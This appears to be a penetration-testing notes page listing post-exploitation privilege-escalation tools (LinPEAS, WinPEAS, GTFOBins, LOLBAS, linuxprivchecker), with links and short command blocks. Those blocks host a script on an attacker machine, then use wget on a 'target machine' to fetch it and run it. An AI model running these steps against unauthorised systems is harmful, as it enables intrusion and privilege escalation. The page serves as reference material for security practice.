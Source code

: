 # Tools and Utilities

Here we can find some tools and utilities commonly used for practices related to post-exploitation:

## <mark style="color:green;">LinPEAS</mark>

* Script that searches for possible paths to escalate privileges on _Linux_/_Unix\*_/_MacOS_ hosts
* [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

### <mark style="color:yellow;">Commands</mark>

* Installation

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo apt install peass
```
{% endcode %}

***

* Usage

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Host machine
linpeas
python3 -m http.server $port #Create server to send file

#Target machine
cd /tmp
wget http://$hostIP:$port/linpeas.sh
bash linpeas.sh
```
{% endcode %}

## <mark style="color:green;">WinPEAS</mark>

* Script that searches for possible paths to escalate privileges on _Windows_ hosts
* [https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)

### <mark style="color:yellow;">Commands</mark>

* Usage

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Host machine
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe
python3 -m http.server $port #Create server to send file

#Target machine
wget http://$hostIP:$port/winPEASx64.exe
.\winPEASx64.exe
```
{% endcode %}

## <mark style="color:green;">GTFOBins</mark>

* List of _Unix_ binaries used to bypass local security restrictions in misconfigured systems
* [https://gtfobins.github.io/](https://gtfobins.github.io/)

## <mark style="color:green;">LOLBAS</mark>

* Contains scripts, binaries, and libraries for developing a Living Off the Land attack on Windows
* [https://lolbas-project.github.io/](https://lolbas-project.github.io/)

## <mark style="color:green;">linuxprivchecker</mark>

* Enumerate basic system info and search for common privilege escalation vectors on _Linux_ systems
* [https://github.com/sleventyeleven/linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
